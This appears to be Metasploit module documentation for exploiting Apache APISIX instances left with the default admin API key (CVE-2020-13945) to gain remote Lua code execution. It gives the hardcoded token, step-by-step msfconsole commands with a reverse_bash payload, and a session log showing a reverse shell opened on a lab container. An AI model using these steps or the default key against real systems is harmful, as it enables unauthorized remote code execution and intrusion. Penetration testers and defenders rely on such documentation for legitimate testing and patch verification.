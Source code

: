 ## Vulnerable Application

A default configuration of Apache APISIX (with default API key) is vulnerable to remote code execution.

The Apache APISIX has a default API token `edd1c9f034335f136f87ad84b625c8f1` defined at `conf/config.yaml` and in its default configuration has doesn't come with the `ip-restriction` plugin enabled, what allow any user to add a new route in its default confiuration. By leveraging the feature `script` added in the 2.x version an user can add a route which leads to the remote LUA code execution (CVE-2020-13945).

This module was tested using a vulnerable docker container as available on the [vulnhub ](https://github.com/vulhub/apisix/CVE-2020-13945/docker-compose.yml) project.

## Verification Steps
Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/http/apache_apisix_api_default_token_rce`
3. set `RHOSTS` and `RPORT`
4. Confirm the target is vulnerable: `check`
5. Confirm that the target is vulnerable: `The target is vulnerable.`
6. It come already with a default payload `cmd/unix/reverse_bash`
7. set `LHOST` and `LPORT`
8. `exploit`
9. Confirm you have now a cmd session

## Options

### TARGETURI (required)

The path to the APISIX routes controller (Default: `/apisix/admin/routes`).

### API_KEY (required)

The admin API KEY for APISIX (Default: `edd1c9f034335f136f87ad84b625c8f1`).


## Scenarios
```
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > run rhosts=127.0.0.1 rport=9080 lhost=docker0 lport=4444

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking component version to 127.0.0.1:9080
[+] The target appears to be vulnerable.
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.18.0.4:48162 ) at 2022-02-28 18:32:50 +0100
id

uid=99(nobody) gid=99(nobody) groups=99(nobody)
uname -a
Linux 58f5aba16de9 5.16.8-arch1-1 #1 SMP PREEMPT Tue, 08 Feb 2022 21:21:08 +0000 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 127.0.0.1 - Command shell session 1 closed.
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > 
```

### Version and OS
This module has been tested successfully on Apache APISIX 2.11.0.